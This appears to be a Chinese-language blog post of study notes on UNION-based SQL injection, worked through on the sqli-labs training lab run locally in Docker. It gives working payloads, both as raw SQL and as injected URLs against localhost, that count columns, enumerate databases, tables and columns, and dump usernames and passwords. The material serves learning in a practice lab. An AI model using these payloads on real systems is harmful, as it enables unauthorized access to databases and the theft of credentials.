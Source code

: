 ```yaml
---
layout: post
title: "SQL注入学习02"
date: 2018-06-16
category: 
tags: web安全 sql注入
---
```


## union查询注入

### union介绍

SQL UNION 操作符  
用于合并两个或多个SELECT语句的结果集。  
注意：  
SELECT语句必须拥有**相同数量**的列。  
列也必须拥有**相似的数据类型**。  
每条SELECT语句中列的**顺序必须相同**。  

默认情况，UNION操作符选取不同的值，允许重复的值，使用UNION ALL。  

	SELECT column_name(s) FROM table_name1
	UNION
	SELECT column_name(s) FROM table_name2

	SELECT column_name(s) FROM table_name1
	UNION ALL
	SELECT column_name(s) FROM table_name2

### union查询注入方法

#### UNION 注入应用场景  

前提：  
1.只要UNION连接的几个查询的字段数一样且列的数据类型转换没有问题，就可以查询出结果；
2.注入点页面有回显；

注意点：  
1.只有最后一个SELECT子句允许有ORDER BY；
2.只有最后一个SELECT子句允许有LIMIT；

	mysql> select * from users order by id union select 1,2,3;
	错误 orderby 要在最后一个子句后面

	mysql> select * from users limit 0,1 union select;
	错误 limit 要在最后一个子句后面

#### UNION注入过程-根据Sqli-labs Less1-4学习

tips：order by 猜出来的列数超过数据库表中的列数，报错并不能返回数据  

1. order by 确定列数
2. 观察页面返回，选取可以显示数据的位置，进行下一步的注入
3. 读库信息
4. 读表信息 
5. 读字段
6. 读数据


---



	docker run -dt --name sqli -p 90:80 --rm acgpiano/sqli-labs 
	docker ps -a
	docker exec -it <id> /bin/bash
	mysql -uroot -p
	show databases;
	use security;

	1. select * from users order by 4; // order by 判断多少列 从1～3 报错了确定有4列

	2. select * from users where id=1 union select 1,2,3;
	select * from users where id=-1 union select 1,(select version()),3;

	3. select * from users where id=-1 union select 1,2,(select group_concat(schema_name) from information_schema.schemata);

	4. select * from users where id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security'); // 当前库可以换成database() ''不识别可以换成十六进制0x

	5. select * from users where id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users');

	6. select * from users where id=-1 union select 1,2,(select group_concat(username,0x7e,password) from users);


浏览器访问：  
http://127.0.0.1:90/Less-1/  

	http://127.0.0.1:90/Less-1/?id=1'
	http://127.0.0.1:90/Less-1/?id=1' order by 1 --+ // 二分法试
	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,3 --+
	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(version())--+ // user() database()

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(username,0x7e,password) from users)--+

















